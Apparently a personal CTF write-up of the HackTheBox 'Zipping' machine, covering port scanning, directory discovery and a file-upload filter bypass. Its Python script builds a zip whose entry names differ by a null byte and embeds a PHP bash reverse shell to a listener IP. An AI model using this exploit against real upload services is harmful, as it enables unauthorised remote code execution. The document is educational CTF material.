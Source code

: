 ```yaml
---
title: HTB Zipping
date: 2023-12-13 02:47:40 +0000
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```


## **<span style='color:#ff5555'>Zipping</span>**

Welcome to my another writeup! In this HackTheBox [Zipping] machine, you'll learn: Content discovery via `gobuster Or anything`, exploiting file upload vulnerbility & extension filter bypass.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Table of Content

1. **[Service Enumeration](#service-enumeration)**
2. **[Initial Foothold](#initial-foothold)**
3. **[Privilege Escalation:](#privilege-escalation)**
4. **[Conclusion](#conclusion)**

## Background

![Alt Text](/assets/images/htb/zipping.png)

## Service Enumeration

**Create 2 environment variables for future use:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ export RHOSTS=10.10.11.229

k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ 
export LHOST=ifconfig tun0 | grep -E 'inet [0-9]+\.[0-9]+\.[0-9]+\.[0-9]' | cut -d' ' -f10
```

As usual, scan the machine for open ports via `nmap`!

**nmap:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ nmap -sC -sV -T4 -A --vv $ip -oN nmap_day

Result :
Discovered open port 22/tcp on 10.10.11.229
Discovered open port 80/tcp on 10.10.11.229

PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp   open     http    syn-ack     Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.54 (Ubuntu)
3945/tcp filtered emcads  no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now, we can perform content discovery using tools like gobuster to find hidden directories and files:

```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$
gobuster dir -u http://10.10.11.229/ -w /home/k0r3k/cybersec/exploit/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -t 40
```

- Found directory: **`/upload.php `**

Here we can see that we have to upload a zip file containing a pdf, with this scenario we can identify a zip flip attack.

I made it in python so it can be reviewed

```python
from struct import pack
import argparse
import zlib
import requests

parser = argparse.ArgumentParser(description='Exploit Zipper')
parser.add_argument('-L', '--listener_ip', help='listener ip')
parser.add_argument('-R', '--target_ip', help='target ip')
args = parser.parse_args()

filename1 = b'rev.php.pdf'
filename2 = b'rev.php\x00.pdf'

filecontent = b"""<?php system("bash -c 'bash -i >& /dev/tcp/"""+args.listener_ip.encode()+b"""/9001 0>&1'"); ?>"""
length = len(filecontent)
crc = zlib.crc32(filecontent)


p  = b''
p += b'\x50\x4b\x03\x04' # magic bytes
p += b'\x14\x00' # version
p += b'\x00\x00' # flags
p += b'\x00\x00' # compression
p += b'\x48\xb9' # modtime
p += b'\x1b\x57' # moddate
p += pack("<L", crc) # crc
p += pack("<L", length) # compressed size
p += pack("<L", length) # uncompressed size
p += pack("<H", len(filename1)) # filename len
p += b'\x00\x00' # extra field len
p += filename1
p += filecontent

# central directory
cd  = b''
cd += b'\x50\x4b\x01\x02' # magic bytes
cd += b'\x14\x03' # version
cd += b'\x14\x00' # version needed
cd += b'\x00\x00' # flags
cd += b'\x00\x00' # compression
cd += b'\x48\xb9' # modtime
cd += b'\x1b\x57' # moddate
cd += pack("<L", crc) # crc
cd += pack("<L", length) # compressed size
cd += pack("<L", length) # uncompressed size
cd += pack("<H", len(filename2)) # filename len
cd += b'\x00\x00' # extra field len
cd += b'\x00\x00' # file comm. len
cd += b'\x00\x00' # disk start
cd += b'\x00\x00' # internal attr.
cd += b'\x00\x00\xA4\x81' # external attr
cd += b'\x00\x00\x00\x00' # offset of local header
cd += filename2

# end of centryl directory record
ecd  = b''
ecd += b'\x50\x4b\x05\x06' # magic bytes
ecd += b'\x00\x00' # disk number
ecd += b'\x00\x00' # disc # w/cd
ecd += b'\x01\x00' # disc entries
ecd += b'\x01\x00' # total entries
ecd += pack("<L", len(cd)) # central directory size
ecd += pack("<L", len(p))
ecd += b'\x00\x00'

f = open("rev.zip", "wb")
f.write(p+cd+ecd)
```

## And Get the shell And root, eNJOY tHE Game.

# **<span style='color:#ff5555'>DISCLAIMER</span>**
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet, and its content does match with the creation of an interesting challenges 😉.
```